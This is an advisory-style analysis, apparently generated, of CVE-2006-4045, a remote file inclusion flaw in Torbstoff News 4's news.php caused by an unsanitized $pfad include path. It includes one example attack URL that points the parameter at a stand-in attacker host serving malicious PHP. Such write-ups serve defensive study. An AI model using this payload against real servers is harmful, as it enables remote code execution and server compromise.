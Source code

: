 Based on the provided information, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-4045

**Root Cause of Vulnerability:**

*   The vulnerability lies in the `news.php` file of Torbstoff News 4.
*   The script uses an include statement: `include($pfad . "includes/config.inc.php");`
*   The `$pfad` variable is not properly sanitized, allowing an attacker to control the path of the included file.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary weakness is that the application is vulnerable to remote file inclusion. This occurs because the `$pfad` variable, used in the `include` statement, can be manipulated to point to a remote URL.

**Impact of Exploitation:**

*   **Code Execution:** By injecting a malicious URL into the `pfad` parameter, an attacker can include a remote file containing malicious PHP code. This allows them to execute arbitrary code on the server.

**Attack Vectors:**

*   **HTTP GET Parameter Manipulation:** The attacker exploits the vulnerability through a specially crafted URL using the `pfad` parameter in the `news.php` script.
*  **Example URL:** `http://sitename.com/[Script Path]/news.php?pfad=http://SHELLURL.COM?` where `SHELLURL.COM` points to a malicious PHP file controlled by the attacker.

**Required Attacker Capabilities/Position:**

*   The attacker needs to be able to send HTTP requests to the vulnerable server.
*   The attacker needs a location to host the malicious PHP code that will be included and executed.